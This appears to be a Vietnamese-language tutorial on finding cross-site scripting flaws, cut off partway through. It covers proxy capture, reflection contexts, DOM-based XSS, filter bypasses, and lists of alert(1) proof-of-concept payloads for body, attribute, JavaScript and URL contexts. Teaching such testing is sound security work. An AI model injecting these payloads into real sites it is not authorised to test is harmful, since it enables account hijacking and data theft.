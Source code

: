 => Dùng trình duyệt + proxy (Burp/OWASP ZAP) để ghi lại request/response.

** Bước 2 — Xác định nơi phản hồi (reflection/storage/DOM)
- Reflected: dữ liệu xuất hiện ngay trong response HTML.
- Stored: dữ liệu được lưu server rồi trả lại cho người khác (ví dụ comment).
- DOM-based: không cần server phản hồi chứa payload; client JS đọc URL/DOM và chèn vào page.
  
=> Dùng tính năng “Find in response” trong proxy hoặc tìm chuỗi bạn gửi xuất hiện ở đâu.

** Bước 3 — Xác định context của dữ liệu trong HTML
- Context quyết định payload cần dùng:
- HTML body text: `<div>...HERE...</div>`
- HTML attribute: `<img src="HERE"> hoặc <input value="HERE">`
- Inside tag name (hiếm)
- Inside JavaScript: `var s = 'HERE';` hoặc `document.write("HERE");`
- URL/Location: `href`, `src`, `window.location`
- CSS: `style="background-image:url(HERE)"`
- HTML comment: `<!-- HERE -->`
  
=> Mỗi context có cách escape/encoding khác — quan trọng nhất là tìm cách phá rào ngăn (break out) khỏi context.

** Bước 4 — Thử payload cơ bản
- Bắt đầu bằng payload hiển thị dễ thấy (an toàn cho môi trường testing):
- Reflected/body: `"><script>alert(1)</script> hoặc "><img src=x onerror=alert(1)>`
- Attribute: `" onmouseover="alert(1)" hoặc ' onerror=alert(1) x='`
- JS context: `';alert(1);// hoặc ");alert(1);//`
- URL/href: `javascript:alert(1)` (nhiều nơi chặn)
- DOM: `"><svg/onload=alert(1)> hay </script><script>alert(1)</script>`

=> Quan sát: payload có được phản hồi nguyên vẹn? Nó được encode? Thực thi?

**  Bước 5 — Kiểm tra DOM-based XSS
- Thử sửa fragment/hash: `http://site/page#payload`
- Quan sát DOM/Network trong DevTools: tìm `document.write`, `innerHTML`, `eval`, `location`, `innerText` vs `textContent`.
- Thử inject chuỗi như `#"><img src=x onerror=alert(1)> hoặc #test%0A<script...>`
  
=> Dùng console để chạy script: `document.querySelector(...).innerHTML = location.hash` — nếu thấy ứng dụng làm tương tự, nguy cơ DOM XSS cao

** Bước 6 — Tinh chỉnh & bypass
- Nếu payload bị encode/chuyển đổi:
- Thử thay đổi dạng payload (SVG, iframe, event handlers, CSS expressions).
- Thử các ký tự escape như `\x3C (hex)` hoặc `&#x3C`; (HTML entities) nếu lọc không đầy đủ.
  
=>Sử dụng payload ngắn hơn, tận dụng tag tự đóng hoặc attribute-based payloads.

#### Một số payload mẫu (dùng cho test, sửa theo context)

a. Body / Reflected: 
- `<script>alert(1)</script>`
- `"><img src=x onerror=alert(1)>`
- `'><svg/onload=alert(1)>`
